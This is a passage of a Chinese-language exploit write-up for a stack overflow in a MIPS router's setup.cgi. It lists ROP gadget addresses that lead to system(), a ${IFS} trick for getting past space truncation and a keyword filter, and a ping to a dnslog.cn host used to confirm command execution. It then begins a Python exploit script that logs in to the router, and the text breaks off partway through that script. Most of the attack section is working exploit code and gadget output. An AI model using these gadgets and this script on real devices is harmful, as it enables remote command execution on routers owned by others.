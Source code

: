 然后执行命令可以执行 ping 命令(其中 ping 需要绝对路径，需要注意)：  
```
/bin/ping hv14uf.dnslog.cn -c 2

```  
### 寻找gadgets  
  
MIPS架构推荐使用ropper进行查找，查找时可以参考可被控制的寄存器来筛选gadget。  
```
file setup.cgi
search addiu $a0

```  
  
一开始找到了这个，后来发现怎么也打不通  
```
0x5556af20: addiu $a0, $sp, 0x18; lw $ra, 0x5c($sp); lw $v0, 0x18($sp); jr $ra; addiu $sp, $sp, 0x60; 
0x55567650: la $t9, system; nop; jalr $t9; nop;

```  
  
后来翻了翻CTF中常见的C语言输入函数截断属性总结 | Clang裁缝店 (xuanxuanblingbling.github.io)发现是0x20截断了，所以我们system执行的command也需要绕过空格。  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWWqeQHb60A1LG88JrongeZ3nHPHru4uwrJG6VyUPY5onntPNPTBVHibBRqKScv35MuPoq0W03Urjg/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
同时在FindForbidValue函数里也check了一些敏感字符/关键字，包含这些字符的请求包将会被丢弃。  
  
<img src="https://s2.loli.net/2022/01/13/1r5sHdV8MGNlgLY.png" alt="image-20220112183944202.png" style="zoom: 67%;" />  
  
后来还是用原来的(，将command写到 $a0-0x60上，跳到0x55567650执行就行了。  
```
0x55592ce4: addiu $a0, $a0, -0x60; lw $ra, 0x1c($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x20; 
0x55567650: la $t9, system; nop; jalr $t9; nop;

```  
  
如果你也比较懒的的话，可以用cyclic -l来找偏移。  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWWqeQHb60A1LG88JrongeZ2HibE3Z6A7PibrOQnRo4BEibDp8JiacW5IX2p4Jiah9AmHvicNWSymvib6wbA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
调试时发现$a0的值会随长度变化而变化，所以得填充一下，调试时用的长度500，这里也pad到500，如果想执行更长的命令，可以增加一下payload长度。  
### 最终exp  
```
import requests,re
import base64
url = "http://192.168.1.1/"
user = "aaaa"
pwd = "xxxx!"
command = '/bin/ping xxx.dnslog.cn -c 4'
command = command.replace(" ", "${IFS}")
auth =  "Basic " + base64.b64encode((user + ":" + pwd).encode()).decode("utf-8")

deflogin():
    get_sessionid = requests.get(url)
    sessionid = get_sessionid.headers["Set-Cookie"]
    headers = {
        "Authorization" : auth,
        "Cookie" : sessionid
    }
    r = requests.get(url,headers = headers)
    if r.status_code == 200:
        print("[+] Login success!")
        return sessionid
    else:
```